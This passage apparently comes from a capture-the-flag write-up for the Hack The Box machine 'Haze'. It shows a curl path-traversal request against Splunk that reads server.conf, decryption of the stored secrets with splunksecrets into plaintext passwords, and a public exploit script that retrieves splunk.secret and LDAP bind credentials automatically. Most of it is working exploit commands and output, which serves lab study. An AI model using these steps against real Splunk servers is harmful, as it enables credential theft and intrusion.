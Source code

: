 ```bash

```

and here

```bash
➜  Haze curl -s http://haze.htb:8000/en-US/modules/messaging/C:../C:../C:../C:../C:../etc/system/local/server.conf           
[general]
serverName = dc01
pass4SymmKey = $7$lPCemQk01ejJvI8nwCjXjx7PJclrQJ+SfC3/ST+K0s+1LsdlNuXwlA==

[sslConfig]
sslPassword = $7$/nq/of9YXJfJY+DzwGMxgOmH4Fc0dgNwc5qfCiBhwdYvg9+0OCCcQw==
```

and lets see now if its decyrpt.

```bash
➜  Haze splunksecrets splunk-decrypt -S splunk.secret --ciphertext '$7$ndnYiCPhf4lQgPhPu7Yz1pvGm66Nk0PpYcLN+qt1qyojg4QU+hKteemWQGUuTKDVlWbO8pY='
Ld@p_Auth_Sp1unk@2k24
➜  Haze splunksecrets splunk-decrypt -S splunk.secret --ciphertext '$7$lPCemQk01ejJvI8nwCjXjx7PJclrQJ+SfC3/ST+K0s+1LsdlNuXwlA=='
changeme
➜  Haze splunksecrets splunk-decrypt -S splunk.secret --ciphertext '$7$/nq/of9YXJfJY+DzwGMxgOmH4Fc0dgNwc5qfCiBhwdYvg9+0OCCcQw=='
password
```

### Easy win
https://gist.github.com/milo2012/4edf7c4257da4368113a5ccfee048f1f

```sh
➜  Haze python3 splunk.py -u http://haze.htb:8000/                                           
[+] Checking if target is a Splunk server...
[+] Target is a Splunk server.
[+] Target is running on Splunk Enterprise None
[+] Attempting to retrieve splunk.secret...
[+] splunk.secret retrieved successfully.
[+] Attempting to retrieve hash values...

[+] server.conf:
sslKeysfilePassword: Not found
sslPassword: $7$/nq/of9YXJfJY+DzwGMxgOmH4Fc0dgNwc5qfCiBhwdYvg9+0OCCcQw== -> Decrypted: password
pass4SymmKey: $7$lPCemQk01ejJvI8nwCjXjx7PJclrQJ+SfC3/ST+K0s+1LsdlNuXwlA== -> Decrypted: changeme

[+] authentication.conf:
authType: LDAP
bindDN: CN=Paul
bindDNpassword: $7$ndnYiCPhf4lQgPhPu7Yz1pvGm66Nk0PpYcLN+qt1qyojg4QU+hKteemWQGUuTKDVlWbO8pY= -> Decrypted: Ld@p_Auth_Sp1unk@2k24
```
